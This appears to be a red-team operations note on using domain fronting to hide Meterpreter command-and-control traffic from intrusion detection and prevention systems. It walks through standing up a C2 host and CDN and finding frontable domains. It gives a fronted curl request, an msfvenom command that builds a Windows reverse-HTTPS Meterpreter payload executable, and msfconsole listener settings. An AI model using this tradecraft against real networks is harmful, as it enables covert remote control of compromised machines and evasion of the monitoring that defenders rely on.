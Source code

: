 ```yaml
---
title: Meterpreter domain fronting
tags:
  - breach
  - operations
  - domain
  - fronting
  - meterpreter
  - bypass
  - ids
  - ips
---
```


Domain fronting is a technique we can use to evade an **intrusion detection
system (IDS)** or **intrusion prevention system (IPS)** attempting to block
outbound connections to our **command-and-control (C2)** server(s). This is
accomplished by manipulating the **Host** header for HTTP/S requests, and using
**content distribution networks (CDNs)** to establish legitimate TLS
connections.

## Infrastructure setup

This section is an exercise for the reader, but what we'll be discussing is
getting your hands on some infrastructure. Using various cloud services, like
Amazon Web Services (AWS), Google Cloud Platform (GCP), Microsoft Azure, and
Digital Ocean, we can create hosts necessary for domain fronting. What are the
steps?

First, get a domain and a virtual machine with a valid public IP address. Make
sure your new domain resolves to your virtual machine's public IP address. Make
sure your virtual machine hosting your C2 offers a certificate when HTTPS
connections are established.

Next, create a CDN - you easily do this with a service like Azure. Make sure
your CDN redirects requests to your new domain. The creation of a CDN will
provide you with another domain - likely within the namespace of your cloud
provider. Make sure requests against your CDN aren't cached - you C2 will likely
make a lot of requests.

Congrats! You've done all the hard work.

## Finding a domain

Using the
[FindFrontableDomains](https://github.com/rvrsh3ll/FindFrontableDomains) tool,
we can search for frontable domains within the same cloud provider your CDN is
registered with. Make sure the frontable domain you've selected is within the
same region or availability zone as well, otherwise your requests might get
dropped.

Now with a frontable domain in hand, you can establish HTTP/S connections with
your C2 using your new CDN's domain as the `Host` in your request(s), for
example:

```bash
curl --header "Host: ${CDN_DOMAIN}" "https://${FRONTABLE_DOMAIN}"
```

The above `curl` invocation will establish a TLS session requesting the
frontable domain's certificate, but the underlying HTTPS communication will
request a resource from our CDN. Our CDN will locate and offer the certificate
for the frontable domain, but it will reroute our request to our C2's domain,
allowing us to establish an HTTPS connection.

This technique ultimately allows us to fool any IDS or IPS inspecting our
traffic, as it looks like we're establishing an innocent TLS session with the
frontable domain.

## Meterpreter configuration

The following invocation creates a **meterpreter** stager that uses our domain
fronting infrastructure to smuggle its requests:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=${FRONTABLE_DOMAIN} LPORT=443 HttpHostHeader=${CDN_DOMAIN} -f exe > payload.exe
```

The following **msfconsole** configuration will create a listening server that
enables responses for our stager's smuggled HTTPS traffic:

```
msfconsole > set LHOST ${FRONTABLE_DOMAIN}
msfconsole > set OverrideLHOST ${FRONTABLE_DOMAIN}
msfconsole > set OverrideRequestHost true
msfconsole > set HttpHostHeader ${CDN_DOMAIN}
```
